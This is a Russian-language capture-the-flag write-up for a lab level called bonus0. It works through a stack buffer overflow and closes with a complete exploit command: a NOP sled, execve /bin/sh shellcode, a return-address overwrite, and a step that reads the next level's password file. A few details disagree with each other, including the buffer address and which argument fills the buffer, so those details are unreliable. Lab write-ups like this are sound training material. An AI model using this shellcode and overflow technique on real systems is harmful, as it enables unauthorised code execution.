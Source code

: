 ## bonus0
В данном уровне мы видим три функции: `main()`, `p()`, `pp()`

![](docs/img/bonus0_1.png)
![](docs/img/bonus0_2.png)
![](docs/img/bonus0_3.png)

В функции `pp()` можно увидеть буфер размера 4096, в котором первые 20 байт содержат 20 первых байт аргумента `arg1`, следующие 20 байт содержат 20 первых байт аргумента `arg1`. Строка же, которая получается на выходе из этой функции выглядит следующим образом:

> `arg1`+`arg2`+пробел+`arg2` при условии, что `arg1` содержит 20 байт  

Итого 61 байт.

Размер буфера, в который записывается итоговая строка - 42 байта. Следовательно, для записи в `eip` у нас остается 19 байт. Записывая наши аргументы, сначала создадим несколько NOP-инструкций, по размеру больше 61 байта, но меньше 4096, чтобы избежать возможных сдвигов памяти. Затем находим оффсет `eip` — 9. Находим адрес буфера — `0x080484d0`. И получаем итоговую команду:

```sh
(python -c 'print "\x90" * 100 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"'; python -c 'print "a" * 9 + "\xd0\xe6\xff\xbf" + "b" * 7'; echo "cd ..; cat bonus1/.pass") | ./bonus0
```

